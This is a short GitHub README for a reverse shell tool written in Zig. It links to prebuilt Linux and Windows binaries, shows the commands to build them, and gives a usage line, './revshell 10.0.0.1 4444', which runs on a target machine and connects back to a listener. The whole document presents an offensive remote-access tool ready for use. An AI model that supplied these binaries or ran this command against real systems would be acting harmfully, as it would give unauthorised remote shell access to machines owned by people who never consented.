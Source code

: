 # Zig Reverse Shell 

## Download

Get the binary for your target platform.

Linux: [Download](https://github.com/hideckies/zig-revshell/releases/download/0.0.2/revshell-linux-x86_64)  
Windows: [Download](https://github.com/hideckies/zig-revshell/releases/download/0.0.2/revshell-windows-x86_64.exe)

<br />

## Build from Source

Clone the repository and build for your target platform:

```sh
# Linux target
zig build -Dtarget=x86_64-linux

# Windows target
zig build -Dtarget=x86_64-windows
```

After that, the executable is generated under `zig-out/bin` directory.

<br />

## Usage

Execute the binary in your target machine:

```sh
./revshell 10.0.0.1 4444
```
